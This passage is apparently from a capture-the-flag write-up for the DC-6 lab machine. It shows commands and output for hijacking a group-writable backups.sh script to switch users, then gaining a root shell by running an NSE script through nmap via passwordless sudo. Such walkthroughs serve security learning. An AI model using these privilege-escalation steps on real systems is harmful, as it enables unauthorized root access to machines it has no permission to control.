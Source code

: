 The `backups.sh` script can be modified by the `devs` group, and we are member of this group:

~~~
graham@dc-6:/home/jens$ ll
total 28
drwxr-xr-x 2 jens jens 4096 Apr 26  2019 .
drwxr-xr-x 6 root root 4096 Apr 26  2019 ..
-rwxrwxr-x 1 jens devs   50 Apr 26  2019 backups.sh
-rw------- 1 jens jens    5 Apr 26  2019 .bash_history
-rw-r--r-- 1 jens jens  220 Apr 24  2019 .bash_logout
-rw-r--r-- 1 jens jens 3526 Apr 24  2019 .bashrc
-rw-r--r-- 1 jens jens  675 Apr 24  2019 .profile
graham@dc-6:/home/jens$ id
uid=1001(graham) gid=1001(graham) groups=1001(graham),1005(devs)
~~~

Let's modify the script:

~~~
graham@dc-6:~$ cat > /home/jens/backups.sh << EOF
> /bin/bash
> EOF
~~~

And now, let's execute it as jens:

~~~
graham@dc-6:~$ sudo -u jens /home/jens/backups.sh
jens@dc-6:/home/graham$ id
uid=1004(jens) gid=1004(jens) groups=1004(jens),1005(devs)
~~~

# Privilege escalation

Checking `jens`' privileges reveals that we can execute `nmap` as `root` without password.

~~~
jens@dc-6:~$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
~~~

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#sudo) reveals that we can escalate our privileges as follows:

~~~
jens@dc-6:~$ TF=$(mktemp)
jens@dc-6:~$ echo 'os.execute("/bin/sh")' > $TF
jens@dc-6:~$ sudo nmap --script=$TF

Starting Nmap 7.40 ( https://nmap.org ) at 2020-10-10 16:46 AEST
NSE: Warning: Loading '/tmp/tmp.OfxOLig2cg' -- the recommended file extension is '.nse'.
# uid=0(root) gid=0(root) groups=0(root)
~~~
